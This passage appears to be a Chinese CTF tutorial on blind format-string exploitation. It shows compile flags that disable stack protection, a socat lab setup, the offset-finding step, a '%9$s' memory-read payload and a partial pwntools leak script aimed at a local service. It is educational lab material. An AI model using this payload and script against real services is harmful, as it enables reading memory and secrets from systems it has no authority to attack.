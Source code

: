 gcc 编译 32 位程序

```bash
gcc -z execstack -fno-stack-protector -m32 -o leakmemory leakmemory.c
```

利用 socat 本地起环境，真实环境就是只有一个交互环境，不给你可执行文件。

```bash
socat TCP4-LISTEN:11112,fork EXEC:./pwn
```

[![](assets/1701612281-4cf0828081928f7ff3b69d1df8eebdd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224042-12a5e8f8-2579-1.png)

这里经过测试，发现是**32 位**程序，而且漏洞点在输入`Do you want the flag?`，格式化字符串**偏移为 7**

(TIPS:32 位可以先进行 4 字节的填充，64 字节可以先进行 8 字节的填充，便于观察偏移量)

[![](assets/1701612281-dc7fe6d8f68271ceaac930173dae62ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224046-14a88462-2579-1.png)

```bash
aaaa->0x61616161
```

接下来就是要 dump 程序了

dump 程序，也就是想获取我们所给定地址的内容，而不是获取我们给定的地址。所以应该用 **%n$s** 把我们给定地址当作指针，输出给定地址所指向的字符串。结合前面知道格式化字符串偏移为 7，payload 应该为：`%9$s.TMP[addr]`

(这里其实和 fmtstr3 一样的逻辑，小端序程序，在低地址又多写入了 2 个参数，一个是分隔符.tmp 字符串，一个是返回地址，相当于又抬高了栈，所以偏移为 9)

**注意**：使用 %s 进行输出并不是一个字节一个字节输出，而是一直输出直到遇到 \\x00 截止符才会停止，也就是每次泄露的长度是不确定的，可能很长也可能是空。因为 .text 段很可能有连续 \\x00，所以泄露脚本处理情况有：

1.  针对每次泄露长度不等，addr 根据每次泄露长度动态增加；
2.  泄露字符串可能为空，也就是如何处理 \\x00；

接下来就是要泄露程序的初始地址

###### 方法一：**从程序加载地址开始**

32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

leak.py

```bash
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用 binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret
```